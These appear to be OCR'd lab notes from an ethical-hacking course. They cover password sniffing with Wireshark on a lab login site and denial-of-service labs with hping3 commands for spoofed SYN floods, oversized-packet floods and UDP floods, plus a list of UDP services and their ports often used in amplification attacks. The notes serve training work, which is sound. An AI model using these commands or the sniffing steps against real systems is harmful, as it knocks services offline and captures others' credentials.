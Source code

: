**Module 08: Sniffing**

**Lab2-Task1: Password Sniffing using Wireshark**

- **Attacker**
  - Wireshark
- **Target**
  - [www.moviescope.com](http://www.moviescope.com/)
  - Login
- **Attacker**
  - Stop capture
  - File-\&gt;Save as
  - Filter: **http.request.method==POST**
  - RDP log in Target
  - service
  - start Remote Packet Capture Protocol v.0 (experimental)
  - Log off Target
  - Wireshark-\&gt;Capture options-\&gt;Manage Interface-\&gt;Remote Interfaces
  - Add a remote host and its interface
  - Fill info
- **Target**
  - Log in
  - Browse website and log in
- **Attacker**
  - Get packets

**Module 10: Denial-of-Service**

**Lab1-Task2: Perform a DoS Attack on a Target Host using hping3**

- **Target:**
  - Wireshark-\&gt;Ethernet
- **Attacker**
  - **hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood**
    - **-S: Set the SYN flag**
    - **-a: Spoof the IP address**
    - **-p: Specify the destination port**
    - **--flood: Send a huge number of packets**
- **Target**
  - Check wireshark
- **Attacker (Perform PoD)**
  - **hping3 -d 65538 -S -p 21 –flood [Target IP]**
    - **-d: Specify data size**
    - **-S: Set the SYN flag**
- **Attacker (Perform UDP application layer flood attack)**
  - nmap -p 139 10.10.10.19 (check service)
  - **hping3 -2 -p 139 –flood [IP]**
    - **-2: Specify UDP mode**
- **Other UDP-based applications and their ports**
  - CharGen UDP Port 19
  - SNMPv2 UDP Port 161
  - QOTD UDP Port 17
  - RPC UDP Port 135
  - SSDP UDP Port 1900
  - CLDAP UDP Port 389
  - TFTP UDP Port 69
  - NetBIOS UDP Port 137,138,139
  - NTP UDP Port 123
  - Quake Network Protocol UDP Port 26000
  - VoIP UDP Port 5060

